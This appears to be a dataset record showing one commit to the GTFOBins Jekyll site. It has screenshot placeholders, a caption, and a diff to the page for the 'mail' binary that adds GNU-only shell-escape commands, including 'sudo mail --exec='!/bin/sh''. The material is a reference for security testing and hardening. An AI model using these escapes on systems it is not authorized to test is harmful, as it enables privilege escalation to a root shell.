

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/mail.md, in a window 1280 px wide. Shown: the top 748 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add the GNU version of mail
Close #54.

```diff
--- a/_gtfobins/mail.md
+++ b/_gtfobins/mail.md
@@ -1,6 +1,8 @@
 ---
 functions:
   shell:
+    - description: GNU version only.
+      code: mail --exec='!/bin/sh'
     - description: This creates a valid Mbox file which may be required by the binary.
       code: |
         TF=$(mktemp)
@@ -8,10 +10,6 @@ functions:
         mail -f $TF
         !/bin/sh
   sudo:
-    - description: This creates a valid Mbox file which may be required by the binary.
-      code: |
-        TF=$(mktemp)
-        echo "From nobody@localhost $(date)" > $TF
-        sudo mail -f $TF
-        !/bin/sh
+    - description: GNU version only.
+      code: sudo mail --exec='!/bin/sh'
 ---
```
